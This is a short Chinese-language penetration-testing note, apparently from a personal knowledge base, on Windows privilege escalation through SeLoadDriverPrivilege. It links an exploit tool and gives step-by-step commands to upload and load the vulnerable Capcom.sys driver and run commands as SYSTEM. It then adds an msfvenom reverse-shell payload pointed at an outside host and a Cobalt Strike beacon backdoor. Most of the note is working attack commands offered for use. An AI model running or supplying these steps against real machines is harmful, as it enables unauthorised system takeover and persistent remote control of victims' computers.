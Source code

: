 ```yaml
---
{"created":"2024-12-04T22:03:41.393+08:00","tags":["SeLoadDriverPrivilege","windows提权"],"Type":"Note","dg-publish":true,"aliases":["SeLoadDriverPrivilege"],"permalink":"/24-渗透/渗透姿势库/SeLoadDriverPrivilege/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 漏洞利用工具下载：
https://github.com/k4sth4/SeLoadDriverPrivilege

## 2. 利用教程：
### 2.1. 上传驱动文件和工具
将以下文件上传到目标机器的一个可写目录中：
- `eoploaddriver_x64.exe`
- `Capcom.sys`
- `ExploitCapcom.exe`
  ![assets/Pasted image 20241204220541.png](/img/user/24-%E6%B8%97%E9%80%8F/%E6%B8%97%E9%80%8F%E5%A7%BF%E5%8A%BF%E5%BA%93/assets/Pasted%20image%2020241204220541.png)
### 2.2. 启用 SeLoadDriverPrivilege 权限
**如果权限启用了 可以忽略**
由于默认情况下 **`SeLoadDriverPrivilege`** 是禁用的，需要首先启用该权限
```shell
.\eoploaddriver_x64.exe System\\CurrentControlSet\\dfserv C:\\Temp\\Capcom.sys
```

### 2.3. 通过 ExploitCapcom.exe 加载驱动
```bash
.\ExploitCapcom.exe LOAD C:\\Temp\\Capcom.sys
```
![assets/Pasted image 20241204220714.png](/img/user/24-%E6%B8%97%E9%80%8F/%E6%B8%97%E9%80%8F%E5%A7%BF%E5%8A%BF%E5%BA%93/assets/Pasted%20image%2020241204220714.png)

### 2.4. 特权用户执行命令
```shell
.\ExploitCapcom.exe EXPLOIT whoami
```
![assets/Pasted image 20241204220753.png](/img/user/24-%E6%B8%97%E9%80%8F/%E6%B8%97%E9%80%8F%E5%A7%BF%E5%8A%BF%E5%BA%93/assets/Pasted%20image%2020241204220753.png)

## 3. 更多利用

### 3.1. msf回弹shell
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=1.1.1.1 LPORT=4444 -f exe > shell.exe

.\ExploitCapcom.exe EXPLOIT shell.exe
```

### 3.2. CS后门

```shell
.\ExploitCapcom.exe EXPLOIT beacon.exe
```